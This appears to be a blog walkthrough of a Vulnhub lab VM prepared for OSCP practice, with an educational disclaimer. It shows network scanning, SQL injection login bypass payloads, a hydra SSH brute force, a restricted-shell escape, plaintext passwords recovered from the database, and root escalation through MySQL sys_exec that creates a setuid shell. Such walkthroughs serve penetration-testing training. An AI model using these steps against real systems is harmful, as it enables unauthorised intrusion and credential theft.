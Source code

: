 ```yaml
---
published: true
---
```


Vulnhub virtual machine; On the path to OSCP this box offered enumeration of services with enum4linux and credential extraction via SQL-i. The main escalation occurs from within MySQL through manipulating the sys_exec function. This was a well rounded crafted box.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------

Locate VM on network

    netdiscover -r 192.168.56.0/24

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550784203739_image.png)


# Enumeration
Nmap Scan

    nmap -sV -sC -oA nmap/kio4 192.168.56.106

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550785864594_image.png)


*Interesting of note, standard SSH port open, Apache web-server on HTTP with PHP/5.2.4, Samba on Netbios leaking a workgroup: WORKGROUP and script results yielding potential doorways into the network.*

Searchsploit
Performing a quick search of vulnerabilies based off information from nmap

    searchsploit php 5.2.4

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786137515_image.png)


*Nothing quite useable.*


    searchsploit samba 3.x

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786279406_image.png)


*few interesting finds for samba*


Investigate the HTTP server
navigate to 192.168.56.106

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786374890_image.png)


*Interesting login page*

checking source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786427477_image.png)


*Discovered application is using a ‘checklogin.php’ page to validate credentials.*

Perform SQL-injection
entered username: `admin' OR '1=1--`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786576189_image.png)


*Returned wrong username… there might be content filtering occurring.*


Perform enumeration of samba with enum4linux

    enum4linux 192.168.56.106

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786818835_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786867205_image.png)


*Samba version has no public vulnerabilities but we did discover users*

Users: `nobody`,`robert`,`root`,`john`, and `loneferret`

Brute-Force SSH (hydra)
added list of users to a file name ‘users’

    hydra -L users -P /usr/share/wordlists/rockyou.txt -t 4 192.168.56.106 ssh -vv

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550787629004_image.png)


*Hydra was not able to break into the front door. Time head back to the HTTP server.*

Noticing that during the web-login it prompted that I was not the correct user with my SQL injection. Lets try to repeat with usernames discovered.

SQL-injection Part deux
Username: `john`
Password: `' or 1=1 --`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550787827775_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550787868356_image.png)


*Well that an improvement - logout button*

Username: `robert`
Password: `' or 1=1 --`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788093350_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788105287_image.png)


*Bingo-bango! we have a username and password*

| Username | robert                |
| -------- | --------------------- |
| Password | ADGAdsafdfwt4gadfga== |

*quickly to the SSH.*

# Remote Access/SSH

    ssh robert@192.168.56.106

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788352355_image.png)


Let the enumeration begin

    sudo -l

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788390459_image.png)

    uname -a

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788415595_image.png)

    which python

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788460435_image.png)

    cd /

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788497865_image.png)


*well that escalated quickly…*

Escaping the restricted shell

    echo os.system("/bin/bash")

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788604365_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788673208_image.png)


*Escaped!*

Lets see whats on this web-server

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788771344_image.png)


You know what I want

    cat checklogin.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788811132_image.png)


*We discovered MySql database usernames and passwords. No impressed by this administrator and choices for passwords.*

MySQL server enumeration

    mysql -u root -p

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788935559_image.png)


Investigating

    SHOW DATABASES

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788987189_image.png)

    use members;
    select * from members;

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550789094899_image.png)


*Acquired another password for john.*

|  1 | john       | MyNameIsJohn          
|  2 | robert   | ADGAdsafdfwt4gadfga== 

MySQL running as root

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550789304054_image.png)


*just the avenue we can use to Priv-Esc*

# Priv-Esc
Using mysql to give us a nice entryway to root


    mysql> use mysql;
    show tables;

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550789817523_image.png)

    select * from func;

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550789853234_image.png)


# Root

    select sys_exec('cp /bin/sh /tmp/shell; chown root /tmp/shell; chgrp root /tmp/shell; chmod u+s /tmp/shell');
    
    mysql> \! /tmp shell

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550789901373_image.png)


Bring me the root!

-exec

# Further Reading/Sources:
 MySQL Root to System Root with lib_mysqludf_sys for Windows and Linux - [link](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)
